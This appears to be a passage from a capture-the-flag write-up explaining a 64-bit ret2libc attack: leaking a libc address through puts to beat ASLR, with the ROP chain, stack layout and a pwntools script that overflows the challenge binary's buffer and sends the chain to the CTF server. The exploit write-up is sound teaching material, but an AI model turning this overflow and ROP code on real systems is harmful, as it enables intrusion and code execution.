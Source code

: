 ## Ret2libc
I used [this](https://tasteofsecurity.com/security/ret2libc-unknown-libc/) as a template for my 64-bit ret2libc attacks. Check the post out since it explains the basics of ret2libc pretty well.  

### Leak Libc
First we need to leak a libc function address. ASLR is enabled on the machine, so the address of libc functions will be randomized. In order to know the address of system() and other libc functions, we need to first find the base address of libc.   
We can use puts or printf to leak the address of a libc function. Puts is easier to use though, so we'll use that in this challenge.  
We'll be leaking the address of the `__libc_start_main` function and then subtracting the offset to calculate the base of libc. Then using the base of libc we can calculate where system() and the "/bin/sh" string is.  

Here's our ROP chain:
```
[Address of pop rdi, ret] [Address of __libc_start_main entry] [Address of puts] 
```
64-bit calling conventions say that the first argument of a function should be in the rdi register.  
So our rop chain will put the address of the `__libc_start_main` entry into rdi and then call puts, printing out the address of `__libc_start_main`.

This is what the stack will look with our ROP chain:
```
[         Address of puts          ] 
[Address of __libc_start_main entry]
[      Address of pop rdi, ret     ]  
[      Buffer:     A*256           ]
```

Here's our script to leak `__libc_start_main`:
```python3
""" The following script was based heavily on the script provided in the following url """
"""           https://tasteofsecurity.com/security/ret2libc-unknown-libc/              """

from pwn import * # Import pwntools

p = remote("chals20.cybercastors.com", 14425) # Connect to the remote server
#p = process("./bof") # start the vuln binary
elf = ELF("./bof") # Extract data from binary
rop = ROP(elf) # Find ROP gadgets

# Find addresses for puts, __libc_start_main and a `pop rdi;ret` gadget
PUTS = elf.plt['puts']
LIBC_START_MAIN = elf.symbols['__libc_start_main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] # Same as ROPgadget --binary vuln | grep "pop rdi"
MAIN = elf.symbols['main']
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

base = b"A"*256 + b"B"*8 #Overflow buffer until return address
# Create rop chain
rop = base +  p64(POP_RDI) + p64(LIBC_START_MAIN) +  p64(PUTS)

#Send our rop-chain payload
p.sendline(rop)

#Parse leaked address
print(p.recvline())
print(p.recvuntil("name: "))
received = p.recvline()
```